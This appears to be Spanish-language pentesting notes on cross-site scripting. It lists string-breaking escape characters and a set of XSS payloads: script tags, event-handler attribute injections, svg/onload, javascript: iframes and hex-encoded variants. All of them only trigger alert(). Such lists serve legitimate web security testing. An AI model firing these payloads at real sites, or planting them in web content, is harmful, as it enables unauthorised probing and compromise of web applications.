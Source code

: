 ### Carácteres de escape y distintos payloads
#### Caracteres de escape
También hay una serie de carácteres de escape y similar en `/usr/share/seclists/Fuzzing/XSS/`
```txt
# para romper cadenas en html
'
"
'"
"'
'">
"'>
>
<
</
/>
</script>
</textarea>
</style>
</iframe>
</svg>
</a>
# para romper cadenas en js
\
\'
\"
\;
\`
\$
\{
\}
\(
\)

```

#### Distintos payloads
```html
# Comillas Simples y Dobles
'<script>alert("XSS!");</script>
"><script>alert("XSS!");</script>
'"'><script>alert("XSS!");</script>
"'><script>alert("XSS!");</script>
'><img src=x onerror=alert("XSS!")>
"><img src=x onerror=alert("XSS!")>
"><svg/onload=alert("XSS!")>
'><svg/onload=alert("XSS!")>

# Inyección en Atributos HTML
"><script>alert(1)</script>
" onmouseover="alert('XSS!')" 
' onerror="alert('XSS!')"
' onclick="alert('XSS!')"
" autofocus onfocus="alert('XSS!')"
'><input type="text" value="XSS" onfocus="alert('XSS!')" autofocus>

# Caracteres Especiales < y >
><script>alert("XSS!")</script>
<svg><script>alert("XSS!")</script></svg>
<iframe src="javascript:alert('XSS!')"></iframe>
<marquee onstart="alert('XSS!')">XSS</marquee>

# Codificación Hexadecimal &#x
&#x3c;script&#x3e;alert(1)&#x3c;/script&#x3e;
```